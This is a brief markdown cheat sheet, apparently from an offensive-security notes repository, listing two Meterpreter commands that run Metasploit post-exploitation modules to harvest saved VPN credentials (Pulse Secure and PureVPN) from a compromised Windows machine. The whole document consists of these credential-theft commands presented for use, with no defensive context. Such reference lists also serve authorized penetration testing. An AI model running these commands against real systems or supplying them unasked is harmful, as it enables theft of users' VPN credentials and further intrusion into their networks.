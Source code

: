 # VPN

## Pulse Secure

```
meterpreter > run post/windows/gather/credentials/pulse_secure
```

## Pure VPN

```
meterpreter > run post/windows/gather/credentials/purevpn_cred_collector
```